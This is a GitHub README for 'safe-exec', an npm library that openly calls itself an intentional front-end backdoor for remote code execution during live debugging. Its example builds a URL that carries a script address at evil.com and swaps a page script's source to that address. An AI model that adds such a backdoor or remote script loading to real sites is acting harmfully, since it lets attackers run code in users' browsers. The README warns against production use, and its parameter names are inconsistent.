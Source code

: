 # safe-exec

[![Build Status](https://travis-ci.org/pori/safe-exec.svg?branch=master)](https://travis-ci.org/pori/safe-exec)

Controlled remote code execution. Great for debugging on a live server. Extremely dangerous for everything else.

Uses RSA key pairs.

# Installation

```sh
npm install safe-exec
```

# Test

```sh
make test
```

# Example

Visit page with very some specific query parameters:

* `publicKey` - plain text passphrase. _WARNING: Persisted in session._
* `message` - _optional_ value of any kind.

```
http://example.com?privateKey=foobar&message=http://evil.com/intent.js
```

Then somewhere in your code:

```js
exec(location.search, 'reallylongcipher', sessionStorage, (message) => {
  let victim = document.querySelector('script[src="foobar.js"]');

  victim.setAttribute('src', message);
});
```

# FAQ

## _Wow this is a great idea! Should I use this in production?_

You should *never* use this in a production environment. This library creates an intentional backdoor for your front-end, which is a huge security risk.

## _Why would you intentionally build a backdoor?_

This is useful for environments that are difficult replicate on your local machine. It helps to speed up development and debugging.

# API

## exec(search, publicKey, sessionStorage, cb)

Executes code if a valid public/private key pair is present.

* `search` - should just be `window.location.search`.
* `publicKey` - any valid RSA public key.
* `sessionStorage` - pass a reference to DOM `sessionStorage` to persist execution across session.
* `cb` - callback `message => ` where code execution is defined.

# License

MIT

---

> [pori.io](http://pori.io) &nbsp;&middot;&nbsp;
> GitHub [@pori](https://github.com/pori) &nbsp;&middot;&nbsp;
> Twitter [@pori_alex](https://twitter.com/pori_alex)
